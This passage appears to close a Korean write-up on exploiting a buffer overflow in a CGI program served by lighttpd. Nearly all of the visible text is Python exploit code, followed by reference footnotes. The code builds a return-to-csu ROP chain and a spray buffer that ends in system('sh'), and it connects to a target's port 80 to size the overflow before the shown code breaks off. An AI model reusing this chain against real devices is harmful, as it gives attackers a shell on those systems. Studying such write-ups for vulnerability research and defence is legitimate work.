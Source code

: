 ```python
def chain(func, r0, r1, r2):
    c = ''
    c += purl32(0x00000000) # r4
    c += purl32(func)       # [r5] => r3
    c += purl32(0x00000000) # r6
    c += purl32(r0)         # r7 => r0
    c += purl32(r1)         # r8 => r1
    c += purl32(r2)         # r9 => r2
    c += purl32(0x00000000) # r10
    c += purl32(csu_2)      # pc
    return c

def spray():

    # If we already got spray buffer, use it.
    global spray_fix
    if len(spray_fix):
        return spray_fix

    # Return-to-csu.
    rop = purl32(csu_1)

    # Set bss:0x20 to get_val address.
    for i in range(4):
        addr = e.bss(0x20+i)
        value = e.symbols['get_val'] >> (i*8) & 0xff
        rop += chain(e.got['memset'], addr, value, 1)

    # get_val("t", bss:0x24, 2): returns "sh"
    rop += chain(e.bss(0x20), str_t, e.bss(0x24), 2) # get_val

    # system("sh")
    rop += chain(e.got['system'], e.bss(0x24), 0, 0)

    # abort
    rop += "AAAA"*7 + purl32(abort)

    # Forming spray.
    spray = 'a' * (SPRAY_LEN % EADDR_LEN) # padd
    spray += purl32(sled_1) * (((SPRAY_LEN-len(rop)) // EADDR_LEN)-3)
    spray += purl32(sled_2) + purl32(sled_1) + "AAAA"
    spray += rop

    # Fix the spray buffer.
    spray_fix = spray

    return spray

def exploit(ip, command):

    # ifconfig's output length is not fixed.
    # So, we need to get the buffer first to calculate
    # the overflow size.
    log.info("Getting buffer.")
    packet = form_packet(ip, form_param())
    p = remote(ip, 80)
    p.send(packet)
    r = p.recv().decode()
    r = r[r.find("- ifconfig"):r.find("\n\n\n")+2]
    dummy_len = 0x204 - len(r)
    p.close()

    log.info("Exploit.")
```

[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))